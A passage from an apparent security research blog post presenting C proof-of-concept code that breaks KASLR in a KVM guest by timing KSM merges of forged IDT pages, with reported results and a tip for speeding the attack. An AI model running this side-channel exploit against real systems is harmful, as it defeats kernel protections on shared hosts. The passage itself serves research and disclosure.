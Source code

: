 With that array created it is very easy to produce an IDT page for a potential KASLR offset:

{% highlight C %}
void *setup_idt_page(uint16_t offset) {
    uint64_t *page = alloc_page();
    for (int i = 0; i < 256; i++) {
        uint64_t shifted_offset = (uint64_t)offset << 53;
        page[i*2] = shifted_offset + entries[i];
        page[i*2+1] = 0x00000000ffffffff;
    }
    return page;
}
{% endhighlight %}

Now all that is left is to put it all together and we'll have constructed an attack that can break KASLR within KVM by exploiting KSM on IDT pages!

{% highlight C %}
// create candidate IDT pages
void *idt_pages[512];
for (int i = 0; i < 512; i++)
    idt_pages[i] = setup_idt_page(i);

// detect if any candidate pages were merged
int attempt = 0;
while (1) {
    printf("-- beginning attempt %d --\n", ++attempt);
    uint64_t results[512];
    for (int i = 0; i < 512; i++) {
        void *page = idt_pages[i];
        time_access(page);

        uint64_t first = time_poke(page);
        uint64_t second = time_poke(page);

        void *base = (void *)0xffffffff80000000 + (i << 21);
        printf("%p (%#03x): %ld => %ld\n", base, i, first, second);
        results[i] = first;
    }
    for (uint64_t i = 0; i < 512; i++) {
        if (results[i] > MERGE_THRESHOLD) {
            printf("detected merged page at index %#03lx\n", i);
            printf("kernel base = %p\n", (void *)0xffffffff80000000 + (i << 21));
            return 0;
        }
    }
    sleep(20);
}
{% endhighlight C %}

Under the default configurations for KSM on my host machine, I got a successful KASLR break in just under nine minutes on a VM that had been up for several minutes.

To see the attack working without having to wait so long, consider lowering KSM's sleep\_miliseconds config value to something more like 20ms.
